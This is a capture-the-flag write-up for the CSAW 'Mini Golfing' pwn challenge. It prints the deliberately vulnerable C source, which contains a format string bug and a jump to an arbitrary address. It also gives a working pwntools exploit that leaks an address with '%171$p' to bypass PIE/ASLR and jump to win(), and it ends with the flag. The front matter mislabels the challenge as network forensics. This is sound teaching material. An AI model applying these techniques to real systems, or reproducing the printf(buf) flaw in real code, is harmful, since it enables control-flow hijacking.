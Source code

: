 ```yaml
---
title: CSAW CTF - Mini Golfing
description: A network forensics CTF chall. writeup.
date: "2024-09-20"
---
```


## Let's get cracking...

### Challenge Description:

`Let’s go mini golfing! To win, just aim correctly! Except the hole with the pin keeps moving…`

Following is the main challenge file.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define MAX_STRINGS 32

void win() {
    system("cat /flag.txt");
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
            
    fflush(stdout);
    fflush(stdin);

    uintptr_t address;
    char *all_strings[MAX_STRINGS] = {NULL};
 char buf[1024] = {'\0'};

    printf("Welcome to PWN GOLF.\n");
    printf("Would you like to enter your name? ");
   
    fgets(buf, 1024, stdin);
    printf("hello: ");
 printf(buf);
   
    printf("\nAlright! Tell me the address you want to aim at!: ");
    scanf("%lx", &address);
    void (*target)(void) = (void(*))address;
    printf("Ok jumping to that address...");
    target();

    return 0;
}
```

## Challenge Breakdown:

It was a classic PWN challenge where the goal was to exploit a vulnerable program that allowed you to jump to any address you provided. The twist, however, was that both Position Independent Executable (`PIE`) and Address Space Layout Randomization (`ASLR`) were enabled, making it impossible to use static addresses to hijack the control flow. This meant I had to come up with a creative way to bypass the randomized memory layout. Instead of relying on known addresses, I had to leak or brute force information about the memory space to find where the key functions or gadgets were located.

### Solution:

```python
from pwn import *
from pwn import p64

binary = ELF("./golf")
#conn = process(binary.path)
conn = remote("localhost", 9999)

exploit = "%171$p"
conn.sendline(exploit)
leaked_address = conn.recvuntil(b"\n\n").split()
leaked_address = leaked_address[-1].decode('UTF-8')

leaked_addr_int = int(leaked_address, 16)

win_addr = leaked_addr_int - 26
win_addr = hex(win_addr)

conn.sendline(win_addr)
conn.interactive()
```

This exploit script solves the challenge by leveraging a format string vulnerability to leak the memory address of the `main` function. Since both `PIE` and `ASLR` are enabled, the program's memory layout is randomized, so static addresses cannot be used. The format string payload `%171$p` retrieves the address of the `main` function from the program's stack. Once the address is leaked and parsed, the script calculates the address of the `win` function by subtracting 26 (determined through prior reverse engineering). This offset allows the script to adjust for the randomized memory layout, effectively bypassing `ASLR` and `PIE` protections. The calculated `win` address is then sent, causing the program to jump to and execute the `win` function, thereby achieving code execution and solving the challenge.

**Flag:** `csawctf{I_doNT_want_t0_g0_901FING_AnymOrE_pl34S3_Thank_you_!!!}`



## MUHAMMAD ABDULLAH
## THANKS
